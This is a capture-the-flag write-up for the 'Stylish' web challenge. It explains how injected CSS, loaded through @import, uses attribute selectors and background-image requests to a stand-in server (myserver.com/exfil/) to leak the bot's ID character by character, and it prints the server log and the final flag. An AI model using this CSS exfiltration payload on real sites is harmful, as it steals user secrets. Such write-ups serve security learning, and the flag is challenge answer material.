# Stylish

You can style the wack attack logo and share your wack creations with our admin!

http://ctf.wackattack.eu:5023

[⬇️ stylish_handout.zip](./stylish_handout.zip)

# Writeup

This took a while, examinating the site  we can inject any CSS  we want into a CSS tag but the data is escaped, so quotes are replaced with `&quot;` and so on. So  we cannot just end the `style` tag and inject my own `script` tag.

We can also here ask a bot to visit the page, the textarea`s ID attribute is the UUID of the user, the UUID of the bot is the flag we are after. So when the bot visits our style the flag is in the textarea's id attribute.

After googling `data exfil using css`  we found a few articles about how to exfiltrate data using CSS. The idea is to use the `background-image` property and load an image from a server with the data in the URL. But since  we cannot set any data it seems weird? 

But to the rescue are [CSS attribute selector](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors).  we can craft a CSS selector that selects the textarea where the ID starts with any letter and set the background image of that.


```css
textarea[id^="wack{a"] { background-image: url(http://myserver.com/exfil/a); }
textarea[id^="wack{b"] { background-image: url(http://myserver.com/exfil/b); }
textarea[id^="wack{c"] { background-image: url(http://myserver.com/exfil/c); }
and so on..
```

So when the ID starts with something the url is loaded and we know what that data is. But the issue are quotes, we need quotes in that field. Again after some testing we figured out that we could load externally hosted css using `@import` and that would not be escaped. So we could load a css file from our server and exfiltrate the data.

Sending the payload:

![alt text](image.png)

Then hosting a file `exfil.css` with a full set of characters allowed in flags we could no exfiltrate the flag character by character.

Instead of doing this manually we made a python script to do this [genexfilcss.py](./genexfilcss.py). Starting this and asking the admin to visit the page with @import statement it would add one new letter every time the bot visited the page.

```bash
Serving at port 8000
Got another char: s, flag: wack{s
8.8.8.8 - - [20/Oct/2024 01:16:03] "GET /exfil/s HTTP/1.1" 200 -
Got another char: t, flag: wack{st
8.8.8.8 - - [20/Oct/2024 01:16:16] "GET /exfil/t HTTP/1.1" 200 -
Got another char: y, flag: wack{sty
8.8.8.8 - - [20/Oct/2024 01:16:24] "GET /exfil/y HTTP/1.1" 200 -
Got another char: l, flag: wack{styl
8.8.8.8 - - [20/Oct/2024 01:16:33] "GET /exfil/l HTTP/1.1" 200 -
Got another char: 1, flag: wack{styl1
8.8.8.8 - - [20/Oct/2024 01:17:36] "GET /exfil/1 HTTP/1.1" 200 -
Got another char: s, flag: wack{styl1s
8.8.8.8 - - [20/Oct/2024 01:17:44] "GET /exfil/s HTTP/1.1" 200 -
Got another char: h, flag: wack{styl1sh
8.8.8.8 - - [20/Oct/2024 01:17:51] "GET /exfil/h HTTP/1.1" 200 -
Got another char: _, flag: wack{styl1sh_
8.8.8.8 - - [20/Oct/2024 01:17:58] "GET /exfil/_ HTTP/1.1" 200 -
Got another char: 3, flag: wack{styl1sh_3
8.8.8.8 - - [20/Oct/2024 01:19:38] "GET /exfil/3 HTTP/1.1" 200 -
Got another char: x, flag: wack{styl1sh_3x
8.8.8.8 - - [20/Oct/2024 01:19:46] "GET /exfil/x HTTP/1.1" 200 -
Got another char: p, flag: wack{styl1sh_3xp
8.8.8.8 - - [20/Oct/2024 01:20:09] "GET /exfil/p HTTP/1.1" 200 -
Got another char: l, flag: wack{styl1sh_3xpl
8.8.8.8 - - [20/Oct/2024 01:20:23] "GET /exfil/l HTTP/1.1" 200 -
Got another char: 0, flag: wack{styl1sh_3xpl0
8.8.8.8 - - [20/Oct/2024 01:20:31] "GET /exfil/0 HTTP/1.1" 200 -
Got another char: i, flag: wack{styl1sh_3xpl0i
8.8.8.8 - - [20/Oct/2024 01:20:39] "GET /exfil/ we HTTP/1.1" 200 -
Got another char: t, flag: wack{styl1sh_3xpl0it
8.8.8.8 - - [20/Oct/2024 01:20:46] "GET /exfil/t HTTP/1.1" 200 -
Got another char: s, flag: wack{styl1sh_3xpl0its
8.8.8.8 - - [20/Oct/2024 01:20:52] "GET /exfil/s HTTP/1.1" 200 -
Got another char: _, flag: wack{styl1sh_3xpl0its_
8.8.8.8 - - [20/Oct/2024 01:20:59] "GET /exfil/_ HTTP/1.1" 200 -
Got another char: 1, flag: wack{styl1sh_3xpl0its_1
8.8.8.8 - - [20/Oct/2024 01:21:06] "GET /exfil/1 HTTP/1.1" 200 -
Got another char: s, flag: wack{styl1sh_3xpl0its_1s
8.8.8.8 - - [20/Oct/2024 01:21:14] "GET /exfil/s HTTP/1.1" 200 -
Got another char: _, flag: wack{styl1sh_3xpl0its_1s_
8.8.8.8 - - [20/Oct/2024 01:21:21] "GET /exfil/_ HTTP/1.1" 200 -
Got another char: c, flag: wack{styl1sh_3xpl0its_1s_c
8.8.8.8 - - [20/Oct/2024 01:21:28] "GET /exfil/c HTTP/1.1" 200 -
Got another char: 0, flag: wack{styl1sh_3xpl0its_1s_c0
8.8.8.8 - - [20/Oct/2024 01:21:35] "GET /exfil/0 HTTP/1.1" 200 -
Got another char: 0, flag: wack{styl1sh_3xpl0its_1s_c00
8.8.8.8 - - [20/Oct/2024 01:21:44] "GET /exfil/0 HTTP/1.1" 200 -
Got another char: l, flag: wack{styl1sh_3xpl0its_1s_c00l
8.8.8.8 - - [20/Oct/2024 01:21:50] "GET /exfil/l HTTP/1.1" 200 -
Got another char: D, flag: wack{styl1sh_3xpl0its_1s_c00lD
8.8.8.8 - - [20/Oct/2024 01:21:57] "GET /exfil/%7D HTTP/1.1" 200 -
```

The last one faild a bit since the `}` is not allowed in a URL so it was URL encoded. But the flag is `wack{styl1sh_3xpl0its_1s_c00lD}`
